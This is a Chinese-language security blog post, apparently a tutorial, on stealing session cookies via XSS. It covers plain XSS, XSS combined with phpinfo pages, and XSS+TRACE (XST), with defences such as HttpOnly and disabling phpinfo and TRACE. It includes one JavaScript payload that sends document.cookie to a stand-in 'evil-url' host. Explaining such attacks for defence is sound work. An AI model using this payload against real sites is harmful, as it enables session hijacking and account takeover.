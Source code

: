 ![](https://raw.githubusercontent.com/TempestWang/TempestWang.github.io/master/_posts/2019/4/img/cookie.jpg)

**最基本的cookie窃取方式：xss漏洞**

攻击一旦站点中存在可利用的xss漏洞，攻击者可直接利用注入的js脚本获取cookie，进而通过异步请求把标识session id的cookie上报给攻击者。

var img = document . createElement ( 'img' );

img . src = 'http://evil-url?c=' + encodeURIComponent ( document . cookie );

document . getElementsByTagName ( 'body' )[ 0 ]. appendChild ( img );

如何寻找XSS漏洞是另外一个话题了，自行google之。 防御 根据上面HttpOnly cookie 的介绍，一旦一个cookie被设置为 HttpOnly ，js脚本就无法再获取到，而网络传输时依然会带上。也就是说依然可以依靠这个cookie进行session维持，但客户端js对其不可见。那么即使存在xss

漏洞也无法简单的利用其进行session劫持攻击了。 但是上面说的是无法利用xss进行简单的攻击，但是也不是没有办法的。既然无法使用 document.cookie 获取到，可以转而通过其他的方式。下面介绍两种xss结合其他漏洞的攻击方式。
 

**xss结合phpinfo页面**

攻击大家都知道，利用php开发的应用会有一个phpinfo页面。而这个页面会dump出请求信息，其中就包括cookie信息。 
加载中...
如果开发者没有关闭这个页面，就可以利用xss漏洞向这个页面发起异步请求，获取到页面内容后parse出cookie信息，然后上传给攻击者。 phpinfo只是大家最常见的一种dump请求的页面，但不仅限于此，为了调试方便，任何dump请求的页面都是可以被利用的漏洞。 防御 关闭所有phpinfo类dump request信息的页面。

**XSS + HTTP TRACE = XST**

这是一种古老的攻击方式，现在已经消失，写在这里可以扩展一下攻防思路。http trace是让我们的web服务器将客户端的所有请求信息返回给客户端的方法。其中包含了HttpOnly的cookie。如果利用xss异步发起trace请求，又可以获取session信息了。之所以说是一种古老的攻击方式，因为现代浏览器考虑到XST的危害都禁止了异步发起trace请求。另外提一点，当浏览器没有禁止异步发起trace的时代，很多开发者都关闭了web server的trace支持来防御XST攻击。但攻击者在特定的情况下还可以绕过，用户使用了代理服务器，而代理服务器没有关闭trace支持，这样又可以trace了。
